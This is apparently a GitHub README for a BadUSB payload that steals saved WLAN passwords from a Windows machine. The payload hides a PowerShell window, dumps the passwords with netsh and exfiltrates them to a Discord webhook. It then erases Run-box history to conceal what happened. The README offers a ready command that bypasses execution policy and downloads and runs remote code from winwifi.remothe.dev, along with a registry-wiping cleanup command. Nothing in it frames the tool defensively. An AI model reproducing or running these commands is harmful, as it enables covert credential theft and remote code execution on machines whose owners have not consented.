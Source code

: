 # WLAN Windows Password - BadUSB

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

**Category**: WLAN, Credentials

## Description

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then clears run history.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content

ENG 🇺🇸
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm winwifi.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

You must put your Discord webhook into the variable $discord='\<your-webhook-here>'
